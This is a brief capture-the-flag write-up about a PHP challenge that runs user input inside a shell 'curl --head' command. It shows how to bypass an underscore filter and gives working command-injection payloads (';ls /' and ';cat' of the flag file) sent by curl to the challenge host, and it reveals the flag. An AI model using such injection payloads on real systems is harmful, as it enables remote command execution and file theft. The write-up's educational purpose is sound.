 In this challenge, we are given a PHP code:

![](https://hackmd.io/_uploads/H1J5Dd55n.png)

The 2nd if say if the "input_data" variable is not null then then the shell will run the command "curl --head " . $_POST['input_data']" and echo the output of this command. The problem is that if we try to pass value of variable input_data directly into the url bar, we will be stopped by this:

![](https://hackmd.io/_uploads/HJLGKuc9n.png)

It is due to we have '\_' in URL. Therefore, we have to try another approach. 
Here is the idea. We will pass URL in the POST method using cURL to avoid that and change '\_' to "%5f".

curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/?input%5fdata=

![](https://hackmd.io/_uploads/HJiP9u95h.png)

As you can see, the file flag_0d7049824be12ca9d7da is there. All we have to do now is cat it.

curl -d input_data=%3Bcat%20%2Fflag_0d7049824be12ca9d7da http://45.122.249.68:20018/?input%5fdata=

![](https://hackmd.io/_uploads/HJmhjO9q3.png)

And there it is, the flag is W1{ez_head1_huh}.
 



